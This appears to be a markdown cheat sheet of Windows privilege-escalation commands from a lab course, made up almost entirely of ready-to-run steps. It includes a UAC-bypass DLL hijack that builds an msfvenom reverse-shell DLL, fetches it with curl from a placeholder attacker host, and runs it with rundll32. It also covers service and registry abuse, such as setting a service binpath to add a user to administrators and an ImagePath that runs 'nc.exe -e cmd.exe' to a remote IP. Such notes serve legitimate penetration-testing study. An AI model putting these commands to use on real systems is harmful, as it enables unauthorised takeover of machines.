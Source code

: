 ### whoami command to check current user information
```powershell
whoami /user
```

### List members of the administrators group
```powershell
net localgroup administrators
```

### Display the privileges of the current user
```powershell
whoami /priv
```

### Query registry to check if UAC is enabled
```powershell
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

### Query registry for administrator consent prompt behavior
```powershell
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

### Get the OS version using PowerShell
```powershell
[environment]::OSVersion.Version
```

### Print the PATH environment variable
```powershell
cmd /c echo %PATH%
```

### List tasks and filter for rundll32 processes
```powershell
# Useful to identify suspicious rundll32 usage
tasklist /svc | findstr "rundll32"
```

### Kill a process by specifying its PID
```powershell
# Replace <pid> with the actual process ID
taskkill /PID <pid> /F
```

### Generate a reverse TCP shell DLL using msfvenom
```powershell
# Replace <attacker_ip> and <attacker_port> with actual values
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f dll > srrstr.dll
```

### Start a Python HTTP server to host the DLL payload
```powershell
python3 -m http.server <port>
```

### Download the DLL file from the attacker's server using curl
```powershell
curl http://<attacker_ip>:<port>/srrstr.dll -O "C:\\Users\\<user>\\AppData\\Local\\Microsoft\\WindowsApps\\srrstr.dll"
```

### Set up Netcat listener to capture the reverse shell
```powershell
nc -lvnp <attacker_port>
```

### Execute the DLL payload using rundll32
```powershell
rundll32 shell32.dll,Control_RunDLL C:\\Users\\<user>\\AppData\\Local\\Microsoft\\WindowsApps\\srrstr.dll
```

### Open advanced system properties dialog
```powershell
C:\\Windows\\SysWOW64\\SystemPropertiesAdvanced.exe
```

### Confirm the current user after potential privilege escalation
```powershell
whoami
```

### 1. Permissive File System ACLs (SecurityService)
```powershell
.\SharpUp.exe audit
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
sc start SecurityService
```

### 2. Weak Service Permissions (WindscribeService)
```powershell
SharpUp.exe audit
accesschk.exe /accepteula -quvcw WindscribeService
net localgroup administrators
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
sc stop WindscribeService
sc start WindscribeService
net localgroup administrators
sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
sc start WindScribeService
sc query WindScribeService
```

### 3. Unquoted Service Paths (SystemExplorerHelpService)
```powershell
sc qc SystemExplorerHelpService
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

### 4. Permissive Registry ACLs (ModelManagerService)
```powershell
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

### 5. Modifiable Registry Autorun Binary
```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```



## **Key Concepts:**

- **Weak Windows Permissions:** Misconfigurations allow privilege escalation.
- **Service Focus:** Services run as SYSTEM, key targets.

**Approach, Commands, Tools, and Techniques:**

1. **Detect:** `SharpUp`, `accesschk`, `icacls`, `wmic`, PowerShell (autorun).
2. **Exploit:** `copy`, `sc config/start/stop`, `net localgroup`, PowerShell (registry).
3. **Verify:** `net localgroup`, `sc query`.

**Commands:**

- `SharpUp`, `accesschk`, `icacls`, `sc`, `net localgroup`, `copy`, `wmic`, PowerShell (`Set-ItemProperty`, `Get-CimInstance`).